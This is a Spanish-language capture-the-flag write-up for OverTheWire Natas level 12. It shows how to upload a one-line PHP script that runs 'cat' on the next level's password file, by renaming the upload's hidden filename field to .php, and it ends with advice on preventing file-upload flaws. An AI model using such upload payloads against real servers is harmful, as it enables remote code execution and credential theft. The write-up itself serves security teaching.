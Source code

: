 Al entrar al nivel vemos el mensaje `Choose a JPEG to upload (max 1KB):` junto con un formulario para subir un archivo, analizando el código vemos que se asigna un nombre de archivo aleatorio con terminación **.jpg** al archivo que subamos.

Cambiando la terminación del archivo podemos ejecutar código arbitrario desde la página, así que cargamos un archivo [script.php](https://github.com/IberoGIC/gic-level-2/blob/main/Challenges/OTW_Natas/Lvl_12/Ordenmoria/script.php) que muestre el contenido del archivo de contraseña:
```php
<?php
passthru("cat /etc/natas_webpass/natas13");
```

Una vez cargado, abrimos el Inspector en Chrome y modificamos el valor de `filename` en el formulario, cambiando la terminación a **.php**:
```html
<input type="hidden" name="filename" value="sbds37c38u.php">
```

Al dar clic en `Upload File` se nos mostrará el mensaje:
```
The file upload/sbds37c38u.php has been uploaded
```

Damos clic en el enlace al archivo y se muestra la contraseña del nivel siguiente.

---
## **Conclusión**

El desafío demuestra las vulnerabilidades de subida de archivos en aplicaciones web y la importancia de implementar controles estrictos, como:
* Validación del tipo de archivo tanto en el cliente como en el servidor.
* Restricciones de contenido para evitar la ejecución de código malicioso.
* Almacenamiento fuera de directorios accesibles públicamente.

---
-,"  
[_P
